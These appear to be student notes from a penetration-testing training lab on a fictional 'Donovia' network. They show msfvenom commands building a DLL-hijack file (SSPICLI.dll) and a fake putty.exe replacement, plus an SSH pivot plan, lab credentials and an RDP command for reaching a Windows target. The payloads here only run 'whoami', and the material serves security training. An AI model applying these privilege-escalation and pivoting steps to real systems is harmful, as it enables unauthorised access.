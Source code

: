 ## Showcase
### Fake Payload write permissions (dll emplacement)
    msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > c:\users\student\Desktop\whoami.txt' -f dll > SSPICLI.dll
____________________________________________________________________________________________________________________
## Showcase
### Fake Payload rename permissions (exe replacement)
    msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > c:\users\student\Desktop\whoami.txt' -f exe > putty.exe
____________________________________________________________________________________________________________________
## For the DEMO!!!
### To kill the putty.exe we downloaded and launched.
    (get-process | ?{$_.name -like "putty"}).kill()
____________________________________________________________________________________________________________________
# Scheme of Maneuver:
## >Jump Box
## ->Pivot: 192.168.28.105
## -->T1: 192.168.28.5

## Target Section:

## Pivot
### Hostname: ftp.site.donovia
### IP: 192.168.28.105
### OS: Ubuntu 18.04
### Creds: comrade :: StudentReconPassword
### Last Known SSH Port: 2222
### Malware: none
### Action: Perform SSH masquerade and redirect to the next target. No survey required, cohabitation with known PSP approved.

### T1
### Hostname: donovian-windows-private
### IP: 192.168.28.5
    xfreerdp /v:127.0.0.1:20006 /u:comrade /p:StudentPrivPassword /size:1920x1000 +clipboard
### OS: Windows ver: Unknown
### Creds: comrade :: StudentPrivPassword
### Last Known Ports: 3389
### PSP: unknown
### Malware: unknown
### Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.
